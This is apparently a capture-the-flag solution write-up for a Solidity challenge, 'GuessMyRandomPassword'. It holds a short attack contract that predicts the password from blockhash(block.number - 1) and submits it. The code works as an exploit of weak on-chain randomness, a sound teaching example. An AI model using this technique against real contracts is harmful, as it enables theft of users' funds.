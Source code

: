 # GuessMyRandomPassword

## Solution :

To validate this challenge, the user needs to find the good password.

To do that, he needs to create an attack contract and get the `blockhash()` with the `block.number` of the transaction.

And after that, he needs to call the `guessMyRandomPassword()` function with this password.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/easyChalls/GuessMyRandomPassword.sol";

contract attackGuessMyRandomPassword {
    GuessMyRandomPassword originalCOntract;
    bytes32 password;

    constructor(address _originalContract) public {
        originalCOntract = GuessMyRandomPassword(_originalContract);
    }

    function exploit() public {
        password = blockhash(block.number - 1);
        originalCOntract.guessMyRandomPassword(password);
    }
}
```
